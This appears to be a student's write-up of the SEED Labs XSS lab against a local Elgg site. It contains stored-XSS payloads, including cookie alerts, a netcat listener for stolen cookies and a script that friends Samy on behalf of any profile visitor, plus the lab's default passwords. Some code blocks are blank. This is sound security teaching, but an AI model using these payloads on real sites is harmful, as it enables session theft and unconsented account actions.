






# SEED Labs Tasks for _Cross-Site Scripting (XSS) Attack Lab (Web Application: Elgg)_

## General Information

In this week of tasks, we are absorbed in understanding the world of website vulnerabilities. Thus, it was essential to explore a web application named Elgg, using docker container, and  the "HTTP Header Live" tool (a Firefox extension that has the ability to catch HTTP headers) to  complete XSS exploits in said application.

In summary, the following tasks guided us through how to do a simple script injection, to befriend victims using our own profile, similar to the Samy Worm discussed in class.

## (Work done in Week #7)

## Preparations
Before starting the task, we set up the container that holds our web apllication. 

Firstly, we added the necessary names according to the IP address on the file `/etc/hosts`, though some were already inserted.

```
10.9.0.5     www.seed-server.com
10.9.0.5     www.example32a.com
10.9.0.5     www.example32b.com
10.9.0.5     www.example32c.com
10.9.0.5     www.example60.com
10.9.0.5     www.example70.com
```

Then, we obtained the correct yaml file from the Labsetup folder, built it and ran it. This process took a while, since it needed to configure all the data necessary to create the application. 

```shell
$ dcbuild
$ dcup
```
After its completion, we observed using `dockps` that two containers were provided to us:  one running the web server (10.9.0.5), and the other running the MySQL database (10.9.0.6). The database is trivial and only needed to log in into different accounts. For this tasks we mainly logged in with samy as the treath and alice as the victim.

```
------------------------
  UserName | Password
------------------------
  admin    | seedelgg
  alice    | seedalice
  boby     | seedboby
  charlie  | seedcharlie
  samy     | seedsamy
------------------------
```

All it was left to do was opening the website `http://www.seed-server.com` on Firefox. The web application granted us a loggin page, friends page, profile page, edit profile page, all members of the application page, and much more, though we only required the mentioned pages to proceed with our attacks.

Besides, to facilitate our exploits, we were given an extension called `HTTP Header Live` tool. The tool provides an easy way to catch and read all the HTTP headers used to trade information from the client's end to the server side, and vice-versa. One important fact to note is that cookies are visible on the request and response, which made it easy to steal them by a simple script injection. Moreover, having the knowledge of how the HTTP requests looked like was key to create our own malicious requests in the latter tasks.

## Task 1: Posting a Malicious Message to Display an Alert Window

Since this web application lacks security, mainly on the sanitization of client's input, we could easily invade the servers html, adding inline scripts to our pleasing. For starters, we added an alert whenever the profile of Samy was viewed. The code `<script>alert(’XSS’);</script>` was inserted in the short description field when we edited Samy's profile.

Samy's profile before the attack:


Samy's profile after the attack:


## Task 2: Posting a Malicious Message to Display Cookies

Having the possibility to add any script in any Elgg profile, we could steal sensitive data from the document: cookies. By adding `<script>alert(document.cookie);</script>`, any user could see their own cookie pop up in their screen after openning Samy's profile page. This would even work if Samy himself open his own profile. We could detect that the cookie was in fact the same as the one in the request to open his profile.

 

## Task 3: Stealing Cookies from the Victim’s Machine

If we wanted a bit more secretive about our malicious activity under the application, we had to capture the cookie and have a program listening to what the client sends to the server.

We used an image to write the cookie inside an url and, thus, be able to capture the cookie when listening to the same port as inserted in the url. In this case, it was 5555.

We wrote this script in the same input box:
```
<script>document.write(’’);
 </script>
```

By listening to port 5555 using `nc-lknv 5555`, and then making Samy enter his own profile, we get his cookie in the URL encoding:



> c=Elgg%3D2ma5t41vrolqatsr7847743gl4 has the cookie, where `%3D` is the encoded form of character '='. Therefore the conversion is c=Elgg=2ma5t41vrolqatsr7847743gl4, same as the value shown in task 2.

## Task 4:  Becoming the Victim’s Friend
It is now time to start our exploit in befriending victims who visit Samy's profile page. We chose adding the script in the "About Me" field, since it has both the Editor mode and Text mode. We don't need the extra HTML code added in the Editor mode, so we used Text mode by clicking "Edit HTML".

The following skeleton JavaScript code was provided to us.

```javascript
 <script type="text/javascript">
 window.onload = function () {
 var Ajax=null;
 var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
 var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
 var sendurl=...; //FILL IN
 //Create and send Ajax request to add friend
 Ajax=new XMLHttpRequest();
 Ajax.open("GET", sendurl, true);
 Ajax.send();
 }
 </script>
```

We simply had to change sendurl to make anyone that clicks Samy's profile to become his friend without consent:

```javascript
var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
```

- the url `http://www.seed-server.com/action/friends/add?friend=` is visible using the extension to watch any friend request when anyone clicks to add someone as friend.

- `59` is Samy´s id needed to anyone to add him as friend. We can also see in the HTTP request, if alice befriends Samy cy cliking the add friend button:



- `ts + token` is also needed to complete the request.

The result will be:




#### Question 1.1: Explain the purpose of Lines 1 and 2, why are they needed?

The variable `ts` represents the timestamp that the Elgg generates when a client logs in to the web application to strenghten security. The first line, therefore captures this token to authenticate the request.

In the same process, the variable `token` also obtains another security token generated by Elgg when someone logs in. This token is mostly used to stop CSRF exploits from happening. Since it is the victim that requests, we don't need to worry about it, even though we need to add it to the end of the request. Hence, the second line obtains the token value of the victims session to surpass security measures.

#### Question 1.2: If the Elgg application only provided the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Yes, we could still provide a successful attack using an image to hide our code in an event handler. We only need to make sure that the source of the image doesn't exist so that Elgg mandatorily executes `onerror=` event.

```html

```

#### Question 2: Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê?

The attack we just executed is an Stored XSS attack. This is due to storing scripts inside the server's content, and making user's click in a certain page to activate the code. It isn't Reflect XSS since that would require the victim to click a malicous link that would request the server using the victim's credentials and cookies. The server itself would maintain unstained, which is not the case. In addition, it isn't a DOM XSS since we aren't manipulating the DOM only in the client's side, we are storing permanently the script on the server's side.
